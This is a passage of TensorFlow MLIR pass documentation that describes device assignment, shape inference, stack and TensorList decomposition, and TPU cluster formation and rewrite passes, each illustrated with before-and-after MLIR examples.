### `-tf-resource-device-inference`: Propagates the device attribute on resources from callers to callees.
A pass that propagates device assignment of resources on a module. It
performs in-function propagation, as well as cross-function propagation from
callers to callees.

This pass changes the module by adding "tf.device" attribute to function
arguments and adding "device" attribute to TF ops.

For example, given the function

```mlir
  !tf_res = type tensor<*x!tf_type.resource<tensor<32xf32>>>

  func @test(%arg0: !tf_res {tf.device = "/TPU:0"}) {
    tf_executor.graph {
      %control = tf_executor.island {
        %id0 = "tf.Identity"(%arg0) : (!tf_res) -> !tf_res
        tf_executor.yield
      }
      tf_executor.fetch %control : !tf_executor.control
    }
    return
  }
```

Observe how the op inside the island obtains a `/TPU:0` device assignment:

```mlir
  !tf_res = type tensor<*x!tf_type.resource<tensor<32xf32>>>

  func @test(%arg0: !tf_res {tf.device = "/TPU:0"}) {
    tf_executor.graph {
      %control = tf_executor.island {
        %0 = "tf.Identity"(%arg0) {device = "/TPU:0"} : (!tf_res) -> !tf_res
        tf_executor.yield
      }
      tf_executor.fetch %control : !tf_executor.control
    }
    return
  }
```
### `-tf-rewrite-tpu-embedding-ops`: Rewrites TPU embedding send/recv ops by adding TPU embedding deduplication data
### `-tf-shape-inference`: Shape inference on TF dialect and ops implementing InferTypeOpInterface
Fixed point shape refinement pass that utilizes the shape functions
registered on ops using the InferTypeOpInterface as well as by bridging to
the TensorFlow op registry's shape functions. This is an interprocedural
pass that propagates information across function calls/control flow
operations where possible (the GuaranteeAllFuncsOneUsePass is often run
before this pass to enable more propagation opportunities). It refines
both the outermost element type of tensors as well as the nested component
type (e.g., for tensor lists).

During shape refinement this pass may insert additional cast operations as
well as fold some constant shape computations to enable more exact shape
inference. Therefore it does do some mutation of the graph. Constant folding
required to produce more exact shapes is also performed but these values
are only kept in the context rather than the ops folded/IR mutated.

#### Options
```
-max-iterations : Maximum shape inference iterations
```
### `-tf-simple-device-assignment`: Simple device assignment in TF dialect.
Assigns the default device to all ops that have an empty (or
nonexistent) device attribute.

For example, if we have the code

```mlir
  %0 = "tf.Const"() {value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
  %1 = "tf.Const"() {device = "", value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
  %2 = "tf.Const"() {device = "baz", value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
```

then running this pass with 'default-device=foobar', we get:

```mlir
  %0 = "tf.Const"() {device = "foobar" value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
  %1 = "tf.Const"() {device = "foobar", value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
  %2 = "tf.Const"() {device = "baz", value = dense<[[42.0]]> : tensor<1x1xf32>} : () -> tensor<1x1xf32>
```

#### Options
```
-default-device : The default device to assign.
```
### `-tf-stack-ops-decomposition`: Decompose stack operations into local variable operations. Needs static shapes.
A pass that converts stack operations to tensor operations and read/assign
ops on local variables. A later resource lifting pass can further remove the
local variables.

This pass requires that the full shape of the stack can be inferred: 1) the
maximum size needs to be a constant and 2) a push op can be found with a
known shape, and all push ops need to have the same shape.

A stack creation op "tf.StackV2" will be turned in to two zero-initialized
variables, for the buffer and current size. Each push will be turned into
```mlir
  %old_val = "tf.ReadVariableOp"(%buffer)
  %old_size = "tf.ReadVariableOp"(%size)
  %offsets = "tf.ConcatV2"(%old_size, %other_dims_0s, %const0)
  %new_val = "tf.XlaDynamicUpdateSlice"(%old_val, %push_val, %offsets)
  "tf.AssignVariableOp"(%buffer, %new_val)
  %new_size = "tf.AddV2"(%old_size, %const1)
  "tf.AssignVariableOp"(%size, %new_size)
```

and each pop will be turned into

```mlir
  %old_val = "tf.ReadVariableOp"(%buffer)
  %old_size = "tf.ReadVariableOp"(%size)
  %new_size = "tf.Sub"(%old_size, %const1)
  %offsets = "tf.ConcatV2"(%old_size, %other_dims_0s, %const0)
  %slice = "tf.Slice"(%old_val, %offsets, %slice_size_const)
  %pop_result = "tf.Reshape"(%slice, %elem_size_const)
  "tf.AssignVariableOp"(%size, %new_size)
```

The pass also works across control flow and functional calls.
### `-tf-strip-noinline-attribute`: Strip the tf._noinline attribute from top-level functions.
### `-tf-tensor-array-ops-decomposition`: Decompose tensor array operations into local variable operations.
A pass that converts tensor array operations to tensor operations and
read/assign ops on local variables. A later resource lifting pass can further
remove the local variables.

This pass requires that the full shape of the tensor array can be inferred:
1) the size needs to be a constant, 2) it specifies the full element shape,
or that can be inferred from a later write, and 3) all elements have the same
shape.
### `-tf-tensor-device-copy`: Fold the tf.Identity op and the tf.IdentityN op if the op has the same device as its operand
### `-tf-tensor-list-ops-decomposition`: Decomposes TensorList operations into generic operations on tensors.
This pass rewrites TensorList operations into generic and non-mutating
operations on tensors. This results in operations that can be legalized to XLA.

The list is converted to a single large tensor that includes all list elements,
with a new first dimension for the list index. List update operations are
converted to operations that create a new tensor representing the list.

In the current implementation, the resulting operations are statically shaped,
which means it must be possible to infer a bound on the full shape of the
TensorList. That is, the `element_shape` and `num_elements` arguments to a
tensor list creation op are constant.

A tensor list creation op `tf.EmptyTensorList`/`tf.TensorListReserve` will be
turned in to a zero-initialized buffer, and the size is initialized to 0
for `tf.EmptyTensorList` or the specified size for `tf.TensorListReserve`.
Each push will be turned into `tf.XlaDynamicUpdateSlice` with the incremented
size, and each pop will be turned into a `tf.Slice` and a copy of the buffer
with decremented size. Each `tf.TensorListSetItem` will be turned into a
`tf.XlaDynamicUpdateSlice` with unchanged size, and each `tf.TensorListGetItem`
will be rewritten to a `tf.Slice`.

The pass also works across control flow and functional calls.

For example, the TensorList ops in the following function:

```mlir
func @main(%arg0: tensor<8x4xf32>) {
  %elem_shape = "tf.Const"() {value = dense<[8, 4]> : tensor<2xi32>} : () -> tensor<2xi32>
  %max_size = "tf.Const"() {value = dense<10> : tensor<i32>} : () -> tensor<i32>
  %tl = "tf.EmptyTensorList"(%elem_shape, %max_size) : (tensor<2xi32>, tensor<i32>) -> tensor<!tf_type.variant<tensor<8x4xf32>>>
  %push = "tf.TensorListPushBack"(%tl, %arg0) : (tensor<!tf_type.variant<tensor<8x4xf32>>>, tensor<8x4xf32>) -> tensor<!tf_type.variant<tensor<8x4xf32>>>
  return
}
```

will be transformed to:

```mlir
func @main(%arg0: tensor<8x4xf32>) {
  // EmptyTensorList lowering
  %emptyi = "tf.Const"() {value = dense<0> : tensor<i32>} : () -> tensor<i32>
  %emptyf = "tf.Cast"(%emptyi) : (tensor<i32>) -> tensor<f32>
  %size_shape = "tf.Const"() {value = dense<[10, 8, 4]> : tensor<3xi32>} : () -> tensor<3xi32>
  %tl = "tf.BroadcastTo"(%emptyf, %size_shape) : (tensor<f32>, tensor<3xi32>) -> tensor<10x8x4xf32>
  // TensorListPushBack lowering
  %index_in_list = "tf.Const"() {value = dense<0> : tensor<1xi32>} : () -> tensor<1xi32>
  %arg0_shape = "tf.Const"() {value = dense<[1, 8, 4]> : tensor<3xi32>} : () -> tensor<3xi32>
  %arg0_reshaped = "tf.Reshape"(%arg0, %arg0_shape) : (tensor<8x4xf32>, tensor<3xi32>) -> tensor<1x8x4xf32>
  %zeroi2 = "tf.Const"() {value = dense<0> : tensor<2xi32>} : () -> tensor<2xi32>
  %axis = "tf.Const"() {value = dense<0> : tensor<i32>} : () -> tensor<i32>
  %start_indices = "tf.ConcatV2"(%index_in_list, %zeroi2, %axis) : (tensor<1xi32>, tensor<2xi32>, tensor<i32>) -> tensor<3xi32>
  %push = "tf.XlaDynamicUpdateSlice"(%tl, %arg0_reshaped, %start_indices) : (tensor<10x8x4xf32>, tensor<1x8x4xf32>, tensor<3xi32>) -> tensor<10x8x4xf32>
  %one = "tf.Const"() {value = dense<1> : tensor<1xi32>} : () -> tensor<1xi32>
  %next_index_in_list = "tf.AddV2"(%index_in_list, %one) : (tensor<1xi32>, tensor<1xi32>) -> tensor<1xi32>
  return
}
```
### `-tf-tpu-cleanup-cluster-attributes`: Eliminate _tpu_replicate and other attributes from ops in a cluster
This pass eliminate `_tpu_replicate` and `device` attribute on operations
that are contained in a tf_device.cluster op.
### `-tf-tpu-cluster-formation`: Forms clusters from operations assigned to the same TPU computation
TPU computations from the frontend are composed of a `tf.TPUReplicateMetadata`
op, a subgraph of ops (TensorFlow Dialect) each with a matching `_tpu_replicate`
attribute relative to the associated `tf.TPUReplicateMetadata` op, and
optionally `tf.TPUReplicatedInput` and `tf.TPUReplicatedOutput` ops feeding in
inputs and outputs to and from a replicated TPU computation. The number of times
a TPU computation is replicated is defined in the `tf.TPUReplicateMetadata` op
(`num_replicas` attribute) and operand and result sizes of
`tf.TPUReplicatedInput` and `tf.TPUReplicatedOutput` respectively must match,
excluding packed tensors. It is also assumed ops of the same TPU computation do
not have ops outside of the TPU computation that are both inputs and outputs to
the same TPU computation.

This pass takes the TPU computation subgraph, moves them into a
`tf_device.cluster`, and copies over attributes from the associated
`tf.TPUReplicateMetadata` op to the newly created `tf_device.cluster`. If the
computation is replicated (`num_replicas` > 1), the `num_replicas` attribute is
not copied over but instead the `tf_device.cluster` is further wrapped with a
`tf_device.replicate`, and associated `tf.TPUReplicatedInput` and
`tf.TPUReplicatedOutput` ops are replaced as the `tf_device.replicate` operands
and results. Otherwise, the single operands and results of the associated
`tf.TPUReplicatedInput` and `tf.TPUReplicatedOutput` ops are simply forwarded to
the `tf_device.cluster`.

For example, the following non replicated computation:

```mlir
func @tpu_computation(%arg0: tensor<i32>) -> tensor<i32> {
  // Metadata op for cluster `cluster` with 1 replica, 1 core per replica and
  // with topology `<topology>`.
  "tf.TPUReplicateMetadata"() {_tpu_replicate = "cluster", num_relicas = 1, num_cores_per_replica = 1, topology = "<topology>", device_assignment = [], padding_map = []} : () -> ()
  %replicated_input = "tf.TPUReplicatedInput"(%arg0) : (tensor<i32>) -> tensor<i32>
  %identity = "tf.Identity"(%replicated_input) {_tpu_replicate = "cluster"} : (tensor<i32>) -> tensor<i32>
  %replicated_output = "tf.TPUReplicatedOutput(%identity) : (tensor<i32>) -> tensor<i32>
  return %replicated_output : tensor<i32>
}
```

will be transformed into:

```mlir
func @tpu_computation(%arg0: tensor<i32>) -> tensor<i32> {
  %cluster = "tf_device.cluster"() ( {
    %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
    tf_device.return %identity : tensor<i32>
  }) {_tpu_replicate = "cluster", num_cores_per_replica = 1, topology = "topology", device_assignment = [], padding_map = []} : () -> (tensor<i32>)
  return %cluster : tensor<i32>
}
```

The following replicated computation:

```mlir
func @tpu_computation(%arg0: tensor<i32>, %arg1: tensor<i32>) -> (tensor<i32>, tensor<i32>) {
  "tf.TPUReplicateMetadata"() {_tpu_replicate = "cluster", num_relicas = 2, num_cores_per_replica = 1, topology = "topology", device_assignment = [], padding_map = []} : () -> ()
  %replicated_input = "tf.TPUReplicatedInput"(%arg0, %arg1) : (tensor<i32>, tensor<i32>) -> tensor<i32>
  %identity = "tf.Identity"(%replicated_input) {_tpu_replicate = "cluster"} : (tensor<i32>) -> tensor<i32>
  %replicated_output:2 = "tf.TPUReplicatedOutput(%identity) : (tensor<i32>) -> (tensor<i32>, tensor<i32>)
  return %replicated_output#0, %replicated_output#1 : tensor<i32>, tensor<i32>
}
```

will be transformed into:

```mlir
func @tpu_computation(%arg0: tensor<i32>, %arg1: tensor<i32>) -> (tensor<i32>, tensor<i32>) {
  %replicate:2 = tf_device.replicate([%arg0, %arg1] as %replicated_input) {n = 2 : i32} {
    %cluster = "tf_device.cluster"() ( {
      %identity = "tf.Identity"(%replicated_input) : (tensor<i32>) -> tensor<i32>
      tf_device.return %identity : tensor<i32>
    }) {_tpu_replicate = "cluster", num_cores_per_replica = 1, topology = "topology", device_assignment = [], padding_map = []} : () -> (tensor<i32>)
    tf_device.return %cluster : tensor<i32>
  }
  return %replicate#0, %replicate#1 : tensor<i32>, tensor<i32>
}
```
### `-tf-tpu-colocate-composite-resource-ops`: Colocate resource with composite device assignment to TPU device.
Pass that co-locates resource ops that use composite device resources
(packed tensors) with the underlying physical TPU device.

So for example, if we have a function that does (inside a `tf_device.replicate`):

```mlir
  %0 = "tf.ReadVariableOp"(%arg1) : (tensor<*x!tf_type.resource<tensor<4xf32>>>) -> tensor<4xf32>
```

Then said `ReadVariableOp` is going to get replaced by:

```mlir
  %0 = "tf_device.launch"() ( {
    %2 = "tf.ReadVariableOp"(%arg1) : (tensor<*x!tf_type.resource<tensor<4xf32>>>) -> tensor<4xf32>
    tf_device.return %2 : tensor<4xf32>
  }) {...} : () -> tensor<4xf32>
```
### `-tf-tpu-device-propagation`: Propagates TPU devices from ops to users
### `-tf-tpu-dynamic-layout-pass`: Inserts TPU layout ops to determine layout at run time.
A pass that allows TPU input layout to be determined after JIT compilation.
This is done by adding run-time ops that interpret compilation result and
copy the input to device with that layout.

Example: original program:

```mlir
  %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"}
  %compile:2 = "tf._TPUCompileMlir"(...)
  %execute = "tf.TPUExecute"(%input, ..., %compile#1) {device = "/TPU:0"}
```

Without this pass, later TF graph partitioning passes will insert send/recv
between %input and %execute and data will be copied to device in a fixed
layout. With this pass, the program will be transformed into:

```mlir
  %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"}
  %compile:2 = "tf._TPUCompileMlir"(...)
  %get_layout = "tf.TPUGetLayoutOp"(%compile#1) {...}
  %copy_to_device = "tf.TPUCopyWithLayout"(%input, %get_layout)
      {device = "/TPU:0"}
  %execute = "tf.TPUExecute"(%copy_to_device, ..., %compile#1)
      {device = "/TPU:0"}
```

This way, %compile will determine the layout, which will be respected by
%copy_to_device. There will not be send/recv ops added by later passes,
because tf.TPUCopyWithLayout accepts a host input and produces a device
output.
### `-tf-tpu-extract-head-tail-outside-compilation`: Extracts TPU head or tail outside compilation to separate host launches before/after device cluster.
This pass extracts a CPU computation cluster with `_xla_outside_compilation`
annotation from the head or tail of a TPU cluster.

For example:

```mlir
  %cluster = "tf_device.cluster"() ( {
    %a = "tf.A"(%arg0) {_xla_outside_compilation = "cluster1"} : (tensor<i32>) -> tensor<i32>
    %b = "tf.B"(%a) : (tensor<i32>) -> tensor<i32>
    %c = "tf.C"(%b) {_xla_outside_compilation = "cluster1"} : (tensor<i32>) -> tensor<i32>
    tf_device.return %c : tensor<i32>
  }) {num_cores_per_replica = 1, step_marker_location = "", padding_map = [], topology = "", device_assignment = []} : () -> tensor<i32>
  return %cluster : tensor<i32>
```

becomes:

```mlir
%0 = "tf_device.launch"() ( {
  %3 = "tf.A"(%arg0) : (tensor<i32>) -> tensor<i32>
  tf_device.return %3 : tensor<i32>
}) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> tensor<i32>
%1 = "tf_device.cluster"() ( {
  %3 = "tf.B"(%0) : (tensor<i32>) -> tensor<i32>
  tf_device.return %3 : tensor<i32>
}) {device_assignment = [], num_cores_per_replica = 1 : i64, padding_map = [], step_marker_location = "", topology = ""} : () -> tensor<i32>
%2 = "tf_device.launch"() ( {
  %3 = "tf.C"(%1) : (tensor<i32>) -> tensor<i32>
  tf_device.return %3 : tensor<i32>
}) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> tensor<i32>
return %2 : tensor<i32>

```
### `-tf-tpu-extract-outside-compilation`: Extracts TPU outside compilation computation to a separate tf_device.parallel_execute region.
This pass extracts a CPU computation cluster with `_xla_outside_compilation`
annotation, which denotes ops that should be run on CPU/host, from a TPU cluster.
Each outside compilation cluster is moved to
a tf_device.parallel_execute region. The TPU cluster is also moved to a
tf_device.parallel_execute region. Communication ops between device and host are
added to pass inputs/outputs to/from the outside compiled region.

For example, the following tf_device.cluster with an op marked for `xla_outside_compilation`:

```mlir
func @outside_compilation() -> tensor<f32> {
  %0 = "tf_device.cluster"() ( {
    %1 = "tf.Const"() {_xla_outside_compilation = "0", value = dense<1.0> : tensor<f32>} : () -> (tensor<f32>)
    %2 = "tf.Identity"(%1) {_xla_outside_compilation = "0"} : (tensor<f32>) -> (tensor<f32>)
    %3 = "tf.AddV2"(%1, %2) : (tensor<f32>, tensor<f32>) -> (tensor<f32>)
    tf_device.return %3 : tensor<f32>
  }) {num_cores_per_replica = 1, topology =  "", device_assignment =  []} : () -> tensor<f32>
  return %0 : tensor<f32>
}
```

will become a tf_device.parallel_execute op with a CPU/host region and
a tf_device.cluster with communication ops to send data to/from device/host:

```mlir
func @outside_compilation() -> tensor<f32> {
  %0 = "tf_device.parallel_execute"() ( {
    "tf_device.launch"() ( {
      %1 = "tf._TPUCompileMlirPlaceholderProgramKey"() : () -> tensor<3x!tf_type.string>
      %2 = "tf._XlaRecvAtHost"(%1) {device_ordinal = 0 : i64, key = "host_compute_channel_0_0_args"} : (tensor<3x!tf_type.string>) -> tensor<f32>
      %3 = "tf.Identity"(%2) : (tensor<f32>) -> tensor<f32>
      "tf._XlaSendFromHost"(%3, %1) {device_ordinal = 0 : i64, key = "host_compute_channel_0_0_retvals"} : (tensor<f32>, tensor<3x!tf_type.string>) -> ()
      tf_device.return
    }) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> ()
    tf_device.return
  },  {
    %1 = "tf_device.cluster"() ( {
      %2 = "tf.Const"() {value = dense<1.000000e+00> : tensor<f32>} : () -> tensor<f32>
      %3 = "tf._XlaHostComputeMlir"(%2) {recv_key = "host_compute_channel_0_0_retvals", send_key = "host_compute_channel_0_0_args", tpu_core = 0 : i64} : (tensor<f32>) -> tensor<f32>
      %4 = "tf.AddV2"(%2, %3) : (tensor<f32>, tensor<f32>) -> tensor<f32>
      tf_device.return %4 : tensor<f32>
    }) {device_assignment = [], num_cores_per_replica = 1 : i64, topology = ""} : () -> tensor<f32>
    tf_device.return %1 : tensor<f32>
  }) : () -> tensor<f32>
  return %0 : tensor<f32>
}
```
### `-tf-tpu-host-computation-expansion`: Expands host computation before and after TPU computation.
This pass expands outside compilation attributes to Identity/Cast ops
at the head of TPU computation if it's only used by outside compiled ops.
### `-tf-tpu-identity-pruning`: Removes Identity/IdentityN ops from the TPU computation
### `-tf-tpu-merge-variables-with-execute`: Merges device variable reads and updates into TPU execute ops
This pass finds on-device resource variable reads and updates surrounding a
`tf.TPUExecute` op and merges them into a `tf.TPUExecuteAndUpdateVariables`
op. This allows the TPU execution to perform more efficient in-place
variable updates.

For example,

```mlir
  %0 = "tf.ReadVariableOp"(%arg0)
  %1 = "tf.ReadVariableOp"(%arg1)
  %2 = "tf.TPUExecute"(%0, %1, %compile)
  %3 = "tf.AssignVariableOp"(%arg0, %2)
```

will be transformed into

```mlir
  %2 = "tf.TPUExecuteAndUpdateVariables"(%arg0, %arg1, %compile)
    { device_var_reads_indices = [0, 1],
      device_var_updates_indices = [0, -1] }
````

The transformation happens only for on-device variables. The above
transformation requires `%arg0`, `%arg1` to have the same device assignment
as the `TPUExecute` op.
### `-tf-tpu-parallel-execute-sink-resource-write`: Moves tf.AssignVariableOp consumers of tf_device.parallel_execute into tf_device.parallel_execute regions
### `-tf-tpu-reorder-replicate-partitioned-inputs`: Reorder replicated and partitioned input ops.
This pass rewrites how data parallelism and model parallelism is expressed for
inputs. It reorders `tf.TPUPartitionedInput` (model parallelism) and
`tf.TPUReplicatedInput` (data parallelism) ops. It transforms a DAG where
multiple `tf.TPUPartitionedInput` ops are feeding into a single
`tf.TPUReplicatedInput` into a DAG where multiple `tf.TPUReplicatedInput` ops
are feeding into a single `tf.TPUPartitionedInput`. Transforming the IR in such
a manner will allow subsequent cluster formation pass to handle IR with both
data and model parallelism in an easier manner.

For example, the following:

```mlir
!rtype = type tensor<!tf_type.resource<tensor<10x3xf32>>>
func @data_and_model_parallelism(%arg0: !rtype, %arg1: !rtype, %arg2: !rtype, %arg3: !rtype) -> !rtype {
  %pi_0 = "tf.TPUPartitionedInput"(%arg0, %arg1) {_XlaSharding = "", device = "", partition_dim = -1 : i64} : (!rtype, !rtype) -> !rtype
  %pi_1 = "tf.TPUPartitionedInput"(%arg2, %arg3) {_XlaSharding = "", device = "", partition_dim = -1 : i64} : (!rtype, !rtype) -> !rtype
  %ri = "tf.TPUReplicatedInput"(%pi_0, %pi_1) : (!rtype, !rtype) -> !rtype
  return %ri : !rtype
}
```

will be transformed into:

```mlir
!rtype = type tensor<!tf_type.resource<tensor<10x3xf32>>>
func @data_and_model_parallelism(%arg0: !rtype, %arg1: !rtype, %arg2: !rtype, %arg3: !rtype) -> !rtype {
  %ri_0 = "tf.TPUReplicatedInput"(%arg0, %arg2) : (!rtype, !rtype) -> !rtype
  %ri_1 = "tf.TPUReplicatedInput"(%arg1, %arg3) : (!rtype, !rtype) -> !rtype
  %pi = "tf.TPUPartitionedInput"(%ri_0, %ri_1) {_XlaSharding = "", device = "", partition_dim = -1 : i64} : (!rtype, !rtype) -> !rtype
  return %pi : !rtype
}
```
### `-tf-tpu-resource-partition`: Partitions unpartitioned resource read/write to partitioned resource variables.
This pass creates individual resource reads/writes from the unpartitioned
resource variable (from `tf.TPUPartitionedInput`) to individual partitioned
resource variables (`tf.TPUPartitionedInput` operands). As resource op
decomposition/lifting occurs with the unpartitioned resource variables,
transforming the IR in such a manner will allow for subsequent passes to operate
on individual resource variable handles per core/device.

For example, the following:

```mlir
func @cluster(%arg0: tensor<!tf_type.resource<tensor<i32>>>, %arg1: tensor<!tf_type.resource<tensor<i32>>>) {
  %partitioned_variable = "tf.TPUPartitionedInput"(%arg0, %arg1) {N = 2 : i64, _XlaSharding = "", partition_dim = -1 : i64} : (tensor<!tf_type.resource<tensor<i32>>>, tensor<!tf_type.resource<tensor<i32>>>) -> tensor<!tf_type.resource<tensor<i32>>>
  %read = "tf.ReadVariableOp"(%partitioned_variable) : (tensor<!tf_type.resource<tensor<i32>>>) -> tensor<i32>
  %computation = "tf_device.cluster_func"(%read) {func = @computation, use_spmd_for_xla_partitioning = true} : (tensor<i32>) -> tensor<i32>
  "tf.AssignVariableOp"(%partitioned_variable, %computation) : (tensor<!tf_type.resource<tensor<i32>>>, tensor<i32>) -> ()
  return
}

func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  return %arg0: tensor<i32>
}
```

will be transformed into:

```mlir
func @cluster(%arg0: tensor<!tf_type.resource<tensor<i32>>>, %arg1: tensor<!tf_type.resource<tensor<i32>>>) {
  %read0 = "tf.ReadVariableOp"(%arg0) : (tensor<!tf_type.resource<tensor<i32>>>) -> tensor<i32>
  %read1 = "tf.ReadVariableOp"(%arg1) : (tensor<!tf_type.resource<tensor<i32>>>) -> tensor<i32>
  %partitioned_input = "tf.TPUPartitionedInput"(%read0, %read1) {N = 2 : i64, _XlaSharding = "", partition_dim = -1 : i64} : (tensor<i32>, tensor<i32>) -> tensor<i32>
  %computation = "tf_device.cluster_func"(%partitioned_input) {func = @computation, use_spmd_for_xla_partitioning = true} : (tensor<i32>) -> tensor<i32>
  %partitioned_output:2 = "tf.TPUPartitionedOutput"(%computation) {N = 2 : i64, _XlaSharding = "", partition_dim = -1 : i64} : (tensor<i32>) -> (tensor<i32>, tensor<i32>)
  "tf.AssignVariableOp"(%arg0, %partitioned_output#0) : (tensor<!tf_type.resource<tensor<i32>>>, tensor<i32>) -> ()
  "tf.AssignVariableOp"(%arg1, %partitioned_output#1) : (tensor<!tf_type.resource<tensor<i32>>>, tensor<i32>) -> ()
  return
}

func @computation(%arg0: tensor<i32>) -> tensor<i32> {
  return %arg0: tensor<i32>
}
```
### `-tf-tpu-resource-read-for-write`: Inserts tf.ReadVariableOp inputs to a TPU cluster for resource writes with no reads
This pass materializes `tf.ReadVariableOp` inputs to an outlined TPU computation
for resource variables where only writes are present so later in the pipeline
such resource variables can be fused with generated `tf.TPUExecute` ops, which
only supports resource variable read or read + write. For all TPU computations,
resource variables are required to be initialized prior to execution. Write only
resource variable uses can be generated currently via packed tensor uses.

For example, the following:

```mlir
func @write_only_resource(%value: tensor<i32>, %resource: tensor<*x!tf_type.resource<tensor<i32>>>) {
  %0 = "tf_device.cluster_func"(%value) {func = @cluster} : (tensor<i32>) -> tensor<i32>
  "tf.AssignVariableOp"(%resource, %0) : (tensor<*x!tf_type.resource<tensor<i32>>>, tensor<i32>) -> ()
  return
}

func @cluster(%arg0: tensor<i32>) -> tensor<i32> {
  %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
  return %identity : tensor<i32>
}
```

will be transformed into:

```mlir
func @write_only_resource(%value: tensor<i32>, %resource: tensor<*x!tf_type.resource<tensor<i32>>>) {
  %resource_read = "tf.ReadVariableOp"(%resource) : (tensor<*x!tf_type.resource<tensor<i32>>>) -> tensor<i32>
  %0 = "tf_device.cluster_func"(%value, %resource_read) {func = @cluster} : (tensor<i32>, tensor<i32>) -> tensor<i32>
  "tf.AssignVariableOp"(%resource, %0) : (tensor<*x!tf_type.resource<tensor<i32>>>, tensor<i32>) -> ()
  return
}

func @cluster(%arg0: tensor<i32>, %arg1: tensor<i32>) -> tensor<i32> {
  %identity = "tf.Identity"(%arg0) : (tensor<i32>) -> tensor<i32>
  return %identity : tensor<i32>
}
```
### `-tf-tpu-rewrite`: Rewrites a `tf_device.cluster_func` on TPUs into TPU runtime operations.
This pass rewrites a `tf_device.cluster_func` operation into a sequence of `tf._TPUCompileMlir`
and `tf.TPUExecute` operations. `tf._TPUCompileMlir` contains a MLIR module that is
functionally equivalent to the function referenced by `tf_device.cluster_func`.
This makes the module to be jit-compiled and executed on TPU.
If it is not possible to rewrite the operation or device assignment fails,
a failure will be returned.

Note, many parameters to the `tf_device.cluster_func` are ommited in this
and following examples.
For example, a non replicated `tf_device.cluster_func`:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<i8>) {
  %0 = "tf_device.cluster_func"(%arg0) {_tpu_replicate = "cluster0", func = @func} : (tensor<i8>) -> tensor<i8>
  return
}
```

will be rewritten as:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<i8>) {
  %0:2 = "tf_device.launch"() ( {
    %compilation_status, %program = "tf._TPUCompileMlir"() {mlir_module = "<serialized func>"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>)
    tf_device.return %compilation_status, %program : tensor<!tf_type.string>, tensor<3x!tf_type.string>
  }) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>)
  "tf_device.launch"() ( {
    "tf.TPUCompileSucceededAssert"(%0#0) : (tensor<!tf_type.string>) -> ()
    tf_device.return
  }) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> ()
  %1 = "tf_device.launch"() ( {
    %2 = "tf.TPUExecute"(%arg0, %0#1) : (tensor<i8>, tensor<3x!tf_type.string>) -> tensor<i8>
    tf_device.return %2 : tensor<i8>
  }) {device = "/job:worker/replica:0/task:0/device:TPU:0"} : () -> tensor<i8>
  return
}
```

A replicated `tf_device.cluster_func`:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<i8>, %arg1: tensor<i8>) {
  %0:2 = tf_device.replicate([%arg0, %arg1] as %ri: tensor<i8>) {n = 2 : i32} {
    %1 = "tf_device.cluster_func"(%ri) {_tpu_replicate = "cluster0", func = @func} : (tensor<i8>) -> tensor<i8>
    tf_device.return %1 : tensor<i8>
  }
  return
}
```

will be rewritten as:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<i8>, %arg1: tensor<i8>) {
  %0:2 = tf_device.replicate([%arg0, %arg1] as %arg2: tensor<i8>) {devices = {TPU_REPLICATED_CORE_0 = ["/job:worker/replica:0/task:0/device:TPU:0", "/job:worker/replica:0/task:0/device:TPU:1"], TPU_REPLICATED_HOST = ["/job:worker/replica:0/task:0/device:CPU:0", "/job:worker/replica:0/task:0/device:CPU:0"]}, n = 2 : i32} {
    %1:2 = "tf_device.launch"() ( {
      %compilation_status, %program = "tf._TPUCompileMlir"() {mlir_module = "<serialized func>"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>)
      tf_device.return %compilation_status, %program : tensor<!tf_type.string>, tensor<3x!tf_type.string>
    }) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>)
    "tf_device.launch"() ( {
      "tf.TPUCompileSucceededAssert"(%1#0) : (tensor<!tf_type.string>) -> ()
      tf_device.return
    }) {device = "/job:worker/replica:0/task:0/device:CPU:0"} : () -> ()
    %2 = "tf_device.launch"() ( {
      %3 = "tf.TPUExecute"(%arg2, %1#1) : (tensor<i8>, tensor<3x!tf_type.string>) -> tensor<i8>
      tf_device.return %3 : tensor<i8>
    }) {device = "TPU_REPLICATED_CORE_0"} : () -> tensor<i8>
    tf_device.return %2 : tensor<i8>
  }
  return
}
```

A non replicated `tf_device.cluster_func` with the model parallelism:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<8xi32>) -> tensor<8xi32> {
  %0 = "tf_device.cluster_func"(%arg0) {_tpu_replicate = "cluster0", func = @func, num_cores_per_replica = 2, input_sharding_configuration = ["\08\01\1A\01\01\22\01\00"], output_sharding_configuration = ["\08\01\1A\01\01\22\01\00"]} : (tensor<8xi32>) -> tensor<8xi32>
  return %0 : tensor<8xi32>
}
```

will be rewritten as:

```mlir
func @tf_tpu_rewrite(%arg0: tensor<8xi32>) -> tensor<8xi32> {
  %0:3 = "tf_device.launch"() ( {
    %compilation_status, %program:2 = "tf._TPUCompileMlir"() {mlir_module = "<serialized func>"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>, tensor<3x!tf_type.string>)
    tf_device.return %compilation_status, %program#0, %program#1 : tensor<!tf_type.string>, tensor<3x!tf_type.string>, tensor<3x!tf_type.string>
  }) {device = "/job:localhost/replica:0/task:0/device:CPU:0"} : () -> (tensor<!tf_type.string>, tensor<3x!tf_type.string>, tensor<3x!tf_type.string>)
